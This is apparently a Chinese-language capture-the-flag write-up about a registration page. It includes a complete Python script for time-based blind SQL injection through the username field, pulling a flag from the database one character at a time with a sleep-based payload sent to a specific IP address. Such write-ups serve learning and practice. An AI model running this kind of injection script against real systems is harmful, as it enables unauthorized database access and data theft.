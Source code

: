 发现注册页

![](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251001152927560.png)

注入username字段成功

![](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251001152927561.png)

编写二分时间盲注脚本

```python
import requests
import time

url = "http://61.147.171.35:65370/register.php"
data = {
    'email': 'spark@panic404.cn',
    'username': '',
    'password': '1'
}

def inject_post():
    result=""
    s = requests.Session()
    
    # 二分搜索
    for i in range(1,1000):
        # 可打印字符范围
        low=32
        high=128
        mid=(low+high)//2

        while low<high:
            payload=f"0'+(CASE WHEN ascii(substr((select * from flag) from {i} for 1))<{mid} THEN sleep(1) ELSE 1 END)+'0"
            data['username'] = payload
            data['email'] = f"{i}_{mid}@b.com"
  
            start_time=time.time()
            s.post(url=url,data=data,verify=False,allow_redirects=False) # 不跟随重定向
            end_time=time.time()

            if end_time-start_time>1:
                high=mid
            else:
                low=mid+1
            mid=(low+high)//2
            
        if mid<33 or mid>127:
            break
        result += chr(mid-1)
        print(result)

inject_post()
```

输出

![](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251001152927562.png)

